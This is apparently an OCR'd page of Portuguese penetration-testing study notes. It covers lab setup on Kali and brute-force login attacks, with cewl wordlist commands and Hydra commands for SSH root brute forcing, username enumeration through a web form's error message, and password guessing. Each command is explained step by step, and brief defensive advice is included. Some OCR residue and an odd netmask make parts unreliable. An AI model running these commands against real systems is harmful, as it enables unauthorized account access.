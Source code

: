         $ stmt.setString(2,senha);
        $ stmt.execute();
        -> Caso eu não consiga a simulação em modo bridge do meu kali e o servidor que estão no VirtualBox fazer:
        Colocar ambos como rede interna  (no meu caso o roteador não está atuando corretamente como dhcp)
        No kali: > ifconfig eth0 down 
                 > ifconfig eth0 192.168.10.10 netmask 255.253.255.0 up
        No server:
                 > ifconfig eth0 down 
                 > ifconfig eth0 192.168.10.20 netmask 255.255.255.0 up
        https://portswigger.net/web-security/sql-injection/cheat-sheet

#Brut_force_attack:
     * Burp Suite é um software desenvolvido em Java pela PortSwigger, para a realização de testes de segurança em aplicações web. O Burp Suite é dividido em diversos componentes.
```bash
$ locate /wordlists                 => listas de palavras mais comuns utilizadas em senhas e nicknames (já vem por padrão no Kali Linux) 
$ cewl "<URL>" -d <Nº DE PÁGINAS>   => Faz uma busca em um site e cria uma lista de palavras chaves com base nele
$ cewl "http://192.168.1.37/multilidae/" -d 1 -w cewl.txt => colocar a saída em arquivo txt que pode ser carregada no burp suite
! Uma das formas mais usadas contra esse tipo de ataque seria obrigar o usuário a cadastrar senhas com um formato mais complexo (ex: uso de letras maiúsculas e minúsculas, caracteres especiais, tamanho mínimo, etc), bem como limitar o número de tentativas de acesso por um mesmo usuário. Desta forma, evitamos que um usuário mal intencionado, utilize de listas pré-existentes para se logar no sistema.
* Hydra is a parallelized login cracker which supports numerous protocols to attack. It is very fast and flexible, and new modules are easy to add. This tool makes it possible for researchers and security consultants to show how easy it would be to gain unauthorized access to a system remotely.        
! hydra -l root -P /usr/share/wordlists/metasploit/unix_passwords.txt -t 6 ssh://192.168.1.123 => Attempt to login as the root user (-l root) using a password list (-P /usr/share/wordlists/metasploit/unix_passwords.txt) with 6 threads (-t 6) on the given SSH server (ssh://192.168.1.123)
! hydra -V -L users.txt -p senha-qualquer "localhost" http-form-post "/bruteforce1/index.php:username=^USER^&password=^PASS^:S=Senha incorreta" 
		  [Explicando o comando acima, que tem por objetivo testar usernames e ver se o site retorna "senha incorreta", ficando subentendido que o usuáirio existe. No output do server apache com o webapp da Alura: Nas últimas 4 linhas, temos as tentativas que resultaram na mensagem "Senha incorreta", revelando que os usuários existentes no sistema.]
		  1) Caso fôssemos testar um login com um usuário específico, usaríamos a flag -l (com a letra L minúscula), por exemplo: -l bruno. Contudo, no nosso caso, vamos usar o arquivo com a lista de usuários, então utilizamos -L users.txt (com a letra L maiúscula). 
		  2) Para testar uma única senha em cada usuário, usaremos -p minúsculo e a senha a ser inserida "senha-qualquer". 
		  3) Em seguida, indicamos em qual URL o Hydra rodará: o localhost. 
		  4) Depois, determinamos o método (http-form-post) e a página ("/bruteforce1/index.php"). 
		  5) Além disso, é necessário indicar o parâmetro a ser testado, na própria URL. Primeiramente, o Hydra testará o username, inserindo o USER, conforme a lista de usuários (username=^USER^). Depois, será testada a password (password=^PASS^). 
		  6) Por fim, para sabermos se o usuário existe ou não, vamos verificar se a mensagem "Senha incorreta" foi acionada. Colocaremos o S= para indicar o caso afirmativo, seguido da mensagem que aparece na tela do site quando digitamos um usuário existente e uma senha incorreta.
		  7) Para visualizar o processo mais detalhadamente, podemos usar o modo verbose, incluindo o -V no início do comando
$ hydra -l bruno -P passwords.txt "localhost" http-form-post "/bruteforce1/index.php:username=^USER^&password=^PASS^:Senha incorreta"  => Note que em "...password=^PASS^:Senha incorreta" retiramos o "S=" isso significa que agora iremos pegar apenas o caso negativo, ou seja, caso a senha não esteja incorreta. 
```
